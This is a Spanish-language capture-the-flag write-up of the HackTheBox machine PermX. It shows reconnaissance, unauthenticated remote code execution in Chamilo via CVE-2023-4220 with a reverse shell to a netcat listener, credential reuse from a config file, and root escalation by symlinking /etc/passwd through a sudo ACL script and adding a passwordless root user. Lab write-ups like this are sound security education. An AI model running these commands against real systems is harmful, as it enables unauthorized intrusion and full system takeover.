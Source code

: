 ```yaml
---
title: PermX
date: 2024-08-03
categories: [WRITEUPS, HackTheBox]
tags: [chamilo]  # TAG names should always be lowercase
image: /assets/images/hackthebox/htblogo.png
---
```


Buenas, en esta máquina explotaremos **CVE-2023-4220** por una versión desactualizada de **Chamilo**, para escalar privilegios utilizaremos un script de la máquina, para el cual no necesitamos permisos de **SUDO**.

---

![picture](/assets/images/hackthebox/permx1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que se va a realizar es un escaneo de puertos con *NMAP* para comprobar cuáles de ellos están abiertos.

```bash
nmap -p- --open -T5 -sT 10.10.11.23 -n -Pn -v
```

![picture](/assets/images/hackthebox/permx2.png){: w="600" h="300" }

A continuación, añadiremos al */etc/hosts* la dirección *IP* de la máquina, junto con el dominio, para que resuelva el nombre de dominio.

![picture](/assets/images/hackthebox/permx3.png)

Una vez hecho esto, vamos a entrar en la página web.

![picture](/assets/images/hackthebox/permx4.png)

Navegando por la página web no encontramos nada interesante, con lo que realizaremos Fuzzing para encontrar subdominios.

```bash
ffuf -c -u hhtp://permx.htb/ -H "Host: FUZZ.permx.htb" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18
```

![picture](/assets/images/hackthebox/permx5.png)

Encontramos el subdominio **lms**.

A continuación, hay que añadir el subdominio al */etc/hosts* como hemos hecho antes.

![picture](/assets/images/hackthebox/permx6.png)

Y en el subdominio, nos encontramos un panel de autenticación de **Chamilo**.

![picture](/assets/images/hackthebox/permx7.png)

---

## **Explotación**

Con la extensión de *Wappalyzer*, podemos ver que la *versión* de **Chamilo** es la **1**, una versión muy antigua.

![picture](/assets/images/hackthebox/permx8.png)

Navegando por internet encontramos [**CVE-2023-4220**](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc), con el cual podemos ejecutar un **RCE**(*Remote Code Execution*) sin autenticación, nos descargamos e instalamos el repositorio de GitHub como nos indican.

Ejecutamos el script **main.py** junto con el dominio para comprobar si es vulnerable.

```bash
python3 main.py -u http://lms.permx.htb -a scan
```

![picture](/assets/images/hackthebox/permx9.png)

![picture](/assets/images/hackthebox/permx10.png)

Y a continuación nos permite crear tanto una **Web Shell** (*para poder ejecutar comandos desde el navegador*), como una **Reverse Shell** (*para enviarnos una Shell interactiva a nuestra máquina local*), en mi caso, crearé una **Reverse Shell**, para ello nos ponemos en escucha con un **Listener** con **ncat** por un puerto (*4444*) en nuestra máquina local, y una vez lo tengamos, ejecutamos el script.

- Listener

```bash
nc -nlvp 4444
```

- Ejecución del script

```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
Indicamos nuestra dirección IP y el puerto por el que estamos escuchando con *ncat*.

![picture](/assets/images/hackthebox/permx11.png){: w="600" h="300" }

Y obtenemos una **Shell interactiva** con el usuario *www-data*.

![picture](/assets/images/hackthebox/permx12.png)

---

## **Escalada de privilegios**

Buscando dentro de la máquina, en el archivo de configuración */var/www/chamilo/app/config/**configuration.php*** encontramos una contraseña de la base de datos.

![picture](/assets/images/hackthebox/permx13.png){: w="600" h="300" }

Si comprobamos el archivo */etc/passwd*, podemos ver que hay un usuario llamado ***mtz***, vamos a probar a conectarnos mediante **SSH** usando la contraseña encontrada.

Y obtenemos acceso.

![picture](/assets/images/hackthebox/permx14.png)

Primera **flag** encontrada en el directorio personal.

![picture](/assets/images/hackthebox/permx15.png)

A continuación, vamos a intentar escalar los máximos privilegios.

Al mostrar los privilegios de **SUDO** que tiene el usuario ***mtz***, comprobamos que no necesita usar contraseña para ejecutar el script *acl.sh*.

![picture](/assets/images/hackthebox/permx16.png)

El script proporciona una forma de añadir permisos específicos a un archivo para un usuario determinado, siempre y cuando el archivo esté dentro del directorio */home/mtz/*.

![picture](/assets/images/hackthebox/permx17.png){: w="500" h="200" }

A continuación, crearemos un link simbólico del archivo */etc/passwd*, a un archivo llamado "*prueba*" en el directorio */home/mtz*, y ejecutaremos el script para darle **permisos** de **lectura** y **escritura** al archivo creado.

```bash
ln -s /etc/passwd /home/mtz/prueba
```

```bash
sudo /opt/acl.sh mtz rw /home/mtz/prueba
```

![picture](/assets/images/hackthebox/permx18.png)

A continuación, introduciremos un usuario nuevo sin contraseña y con la bash de **root**.

```bash
echo "pwned::0:0:root:/pwned:/bin/bash" >> /home/mtz/prueba
```

![picture](/assets/images/hackthebox/permx19.png)

Migramos de usuario a "**pwned**", y entramos como "**root**".

![picture](/assets/images/hackthebox/permx20.png)

Y en el directorio personal de **root**, obtenemos la segunda **flag**.

![picture](/assets/images/hackthebox/permx21.png)

![picture](/assets/images/hackthebox/permx22.png){: w="600" h="300" }